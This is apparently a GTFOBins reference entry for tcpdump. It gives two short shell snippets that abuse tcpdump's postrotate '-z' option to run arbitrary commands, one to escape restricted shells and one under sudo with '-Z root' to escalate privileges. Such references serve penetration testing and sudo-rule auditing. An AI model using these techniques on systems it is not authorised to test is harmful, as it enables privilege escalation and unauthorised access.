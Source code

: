 # GTFOBin: tcpdump

These require some traffic to be actually captured. Also note that the subprocess is immediately sent to the background.

In recent distributions (e.g., Debian 10 and Ubuntu 18) AppArmor limits the `postrotate-command` to a small subset of predefined commands thus preventing the execution of the following.

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```